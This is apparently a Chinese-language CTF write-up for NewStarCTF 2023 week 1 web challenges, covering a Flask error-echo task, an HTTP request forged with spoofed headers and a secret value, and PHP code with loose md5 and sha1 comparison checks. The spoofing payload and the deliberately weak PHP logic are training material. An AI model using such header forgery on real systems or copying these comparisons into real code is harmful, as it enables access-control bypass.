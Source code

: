 ### [WEEK1]ErrorFlask

报错回显



![](https://s2.loli.net/2024/03/08/k12mf4wRgN7PbtU.png)

类似一个加法计算器的功能

![](https://s2.loli.net/2024/03/08/BeMtEL9JvZ5KQPr.png)

传值为字符时报错

![](https://s2.loli.net/2024/03/08/zZjdNtOanKr9EPg.png)

源码搜到 flag...

### [WEEK1]Begin of Http

http 协议伪造



同 moectf 2023 web http

paylaod：

```python
POST /?ctf=1 
User-Agent: NewStarCTF2023
Referer:newstarctf.com
Cookie: power=ctfer
X-Real-IP:127.0.0.1

secret=n3wst4rCTF2023g00000d
```

![](https://s2.loli.net/2024/03/08/va8kqch6d2RDofK.png)

### [WEEK1]Begin of PHP

 php 特性



```php
<?php
error_reporting(0);
highlight_file(__FILE__);

if(isset($_GET['key1']) && isset($_GET['key2'])){
    echo "=Level 1=<br>";
    if($_GET['key1'] !== $_GET['key2'] && md5($_GET['key1']) == md5($_GET['key2'])){
        $flag1 = True;
    }else{
        die("nope,this is level 1");
    }
}

if($flag1){
    echo "=Level 2=<br>";
    if(isset($_POST['key3'])){
        if(md5($_POST['key3']) === sha1($_POST['key3'])){
            $flag2 = True;
        }
    }else{
        die("nope,this is level 2");
    }
}
```